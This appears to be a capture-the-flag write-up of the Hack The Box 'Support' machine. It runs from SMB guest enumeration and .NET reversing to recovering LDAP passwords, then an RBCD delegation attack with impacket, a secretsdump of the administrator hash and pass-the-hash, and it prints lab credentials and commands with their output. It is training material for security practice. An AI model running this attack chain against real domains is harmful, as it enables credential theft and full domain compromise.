---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Support

## Summary

## Recon

Let's start, as always, with a [port scan](../../../tools/tools/port-scanners/nmap.md#nmap-flow) (Figure 1).

```bash
nmap-scan.sh 10.10.11.174
Creating directory...
Performing initial scan...
Extracting ports...
Performing an aggresive scan on open ports...
All done! See results: less scans/aggressive_scan.nmap
```

<figure><figcaption><p>Figure 1: Services listening on the Support machine.</p></figcaption></figure>

Let's note some things down based on the Nmap's output:

1. The yellow-highlighted ports inform us that we are dealing with a DC[^1].
2. The FQDN[^2] of the machine is `DC.SUPPORT.HTB`. The hostname (`DC`) also confirms our first point!

Before moving on enumerating the services, we should add the hostname (`dc`), the domain (`support.htb`), and the FQDN (`dc.support.htb`) to our local DNS file.

```bash
grep support /etc/hosts
10.10.11.174    dc support.htb dc.support.htb
```

### SMB

The SMB server allows to query a lot of information via a guest session, such as shares (Figure 1) and usernames (Figure 2).

```bash
# enumerating SMB shares
nxc smb 10.10.11.174 -u 'guest' -p '' --shares
# enumerating domain users
nxc smb 10.10.11.174 -u 'guest' -p '' --rid-brute
```

<figure><figcaption><p>Figure 1: Enumerating SMB shares.</p></figcaption></figure>

<figure><figcaption><p>Figure 2: Enumerating users via RID brute-forcing.</p></figcaption></figure>

There is only one non-default share (`support-tools`) which we have `READ` access. Let's first create a username list to have handy for a potential ASREPRoasting and/or password spraying attack, and then start poking within the share (Figure 3),

```bash
# converting netexec's output to a username list
cat nxc_users | awk '{print $6}' | awk -F'\' 'NR>3 {print $2}' | uniq > dom_users
# spidering the share
nxc smb 10.10.11.174 -u 'guest' -p '' --spider support-tools --regex . --depth 2
```

<figure><figcaption><p>Figure 3: Spidering the <code>support-tools</code> share.</p></figcaption></figure>

This share contains 4 executable and 3 compressed files; we will download all of them, so we can examine them locally (Figure 4).


```bash
nxc smb 10.10.11.174 -u guest -p '' -M spider_plus -o DOWNLOAD_FLAG=True MAX_FILE_SIZE=45000000 OUTPUT_FOLDER=./
```


<figure><figcaption><p>Figure 4: Downloading the <code>support-tools</code> share.</p></figcaption></figure>

There a ton of files within the share, a total of 15 directories and 218 files! The `UserInfo` directory seems the most interesting one, so let's dive into that first. The `UserInfo.exe` is a `.Net` application, and luckily, we can run it on our machine using `dotnet` (installation instructions [here](https://learn.microsoft.com/en-us/dotnet/core/install/linux-debian)) (Figure 5).

```bash
#  checking file type
file UserInfo.exe
UserInfo.exe: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections
# executing the binary
./UserInfo.exe

Usage: UserInfo.exe [options] [commands]

Options:
  -v|--verbose        Verbose output

Commands:
  find                Find a user
  user                Get information about a user
# understanding how the binary works
./UserInfo.exe -v find
[-] At least one of -first or -last is required.
# keep trying to understand how the binary works
./UserInfo.exe -v find -first x7331
[*] LDAP query to use: (givenName=x7331)
[-] Exception: The server is not operational.
```

## Foothold

### Reversing .NET

The `UserInfo.exe` program uses LDAP[^3] to perform two fuctions: either search a user based on his `givenName` or `sn` (the `find` option), or retrieve information about a user based on its `username` (the `user` option). We can use `dnSpy` to get more information about how this application works. Under the `UserInfo.Services` namespace, there are two classes:

1. The `LdapQuery` class which seems to query the domain (`support.htb`) and authenticating as `ldap` using the `password` variable to pass the password (Figure 5).
2. The `Protected` class which stores the encrypted password (Figure 6).

<figure><figcaption><p>Figure 5: The <code>LdapQuery</code> class.</p></figcaption></figure>

<figure><figcaption><p>Figure 6: The <code>Protected</code> class.</p></figcaption></figure>

If we manage to decrypt the password, we can then query the LDAP server remotely ourselves, without the need of the application. This is not difficult to be done, and after just a few clicks (Figure 7 & 8) the password is decrypted: `nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`.

<figure><figcaption><p>Figure 7: Setting up a breakpoint and defining the arguments to pass.</p></figcaption></figure>

<figure><figcaption><p>Figure 8: The plaintext password is revealed.</p></figcaption></figure>

### Searching LDAP

Now, we can use [`ldapsearch`](../../../tools/tools/active-directory/ldapsearch.md) along with this password (`-w`) to perform simple authentication to the LDAP server (`-x`) and query all user information. This outputs a lot of info, more specifically 1399 lines , so we will write it to a file and inspect it with a pager tool, such as `most`.&#x20;

This is not easy to find, but given the name of the box, if we look carefully at the `info` field of the user `support`, there is a plaitext password: `Ironside47pleasure40Watchful` (Figure 9).


```bash
# redirect the output to a file
ldapsearch -x -b 'cn=Users,dc=support,dc=htb' -H ldap://10.10.11.174 -D support\\ldap -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' > ldap_out
# open the file with most
most ldap_out
```


<figure><figcaption><p>Figure 9: A 'hidden' password in the <code>info</code> field of the user <code>support</code>.</p></figcaption></figure>

Using [NetExec](../../../tools/tools/active-directory/netexec-cme.md), we can validate the credentials, check if `support` has WinRM access, and if it does, read the `user.txt` flag 🚩 (Figure 10).


```bash
# validating credentials
nxc smb 10.10.11.174 -u support -p support_pass
# checking for WinRM access
nxc winrm 10.10.11.174 -u support -p support_pass
# reading the user flag
nxc winrm 10.10.11.174 -u support -p support_pass -x 'type c:\users\support\desktop\user.txt'
```


<figure><figcaption><p>Figure 10: Validating credentials, checking WinRM access, and reading the user flag.</p></figcaption></figure>

## EoP[^4]

The first thing we always do when the foothold is established is gather and analyze domain information with [Bloodhound](../../../tools/tools/active-directory/bloodhound.md) (Figure 11).


```bash
nxc ldap 10.10.11.174 -u support -p support_pass --bloodhound -ns 10.10.11.174 -c Group,LocalADmin,RDP,DCOM,Container,PSRemote,Session,Acl,Trusts,LoggedOn
```


<figure><figcaption><p>Figure 11: Collecting domain information using NetExec and BloodHound.</p></figcaption></figure>

By looking what `support` can do, we find out that it is a member of the `Shared Support Accounts` group, which in turn has [`GenericAll`](../../../tl-dr/tl-dr/active-directory/rights/genericall.md) rights over the domain (Figure 12).

<figure><figcaption><p>Figure 12: Analyzing the domain information via BloodHound.</p></figcaption></figure>

The _Linux Abuse_ section (Figure 12) suggests to leverage RBCD[^5], so let's do that by slightly modifying the commands shown by BloodHound.


```bash
# add a computer 
impacket-addcomputer -method SAMR -computer-name 'ATTACKERSYSTEM$' -computer-pass 'Summer2018!' -dc-host 'DC.SUPPORT.HTB' 'support.htb/support:Ironside47pleasure40Watchful' -k -dc-ip 10.10.11.174
Impacket for Exegol - v0.10.1.dev1+20240403.124027.3e5f85b - Copyright 2022 Fortra - forked by ThePorgs

[-] CCache file is not found. Skipping...
[*] Successfully added machine account ATTACKERSYSTEM$ with password Summer2018!.
# configure delegation
impacket-rbcd -delegate-from 'ATTACKERSYSTEM$' -delegate-to 'dc$' -action 'write' 'support.htb/support:Ironside47pleasure40Watchful' -k -dc-ip 10.10.11.174
Impacket for Exegol - v0.10.1.dev1+20240403.124027.3e5f85b - Copyright 2022 Fortra - forked by ThePorgs

[-] CCache file is not found. Skipping...
[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] ATTACKERSYSTEM$ can now impersonate users on dc$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     ATTACKERSYSTEM$   (S-1-5-21-1677581083-3380853377-188903654-5601)
# generate a ticket
sudo impacket-getST -spn 'cifs/dc.support.htb' -impersonate 'administrator' 'support.htb/attackersystem$:Summer2018!'
Impacket for Exegol - v0.10.1.dev1+20240403.124027.3e5f85b - Copyright 2022 Fortra - forked by ThePorgs

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache
```


Now, we can set the `KRB5CCNAME5` variable to our ticket, dump the `administrator`'s hash, and read the `root.txt` flag 🚩 (Figure 13).

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"># setting the KRB5CCNAME variable
export KRB5CCNAME='administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache'
<strong>impacket-secretsdump -k -no-pass -just-dc-ntlm dc.support.htb -just-dc-user administrator
</strong># write hash to a file
echo bb06cbc02b39abeddd1335bc30b19e26 > admin_hash
# read the root flag
nxc smb 10.10.11.174 -u administrator -H admin_hash -x 'type c:\users\administrator\desktop\root.txt'
</code></pre>

<figure><figcaption><p>Figure 13: Dumping <code>ntds.dit</code> and read the root flag.</p></figcaption></figure>

[^1]: Domain Controller

[^2]: Fully Qualified Domain Name

[^3]: Lightweight Directory Access Protocol

[^4]: Elevation of Privileges

[^5]: Resource-Based Constrained Delegation
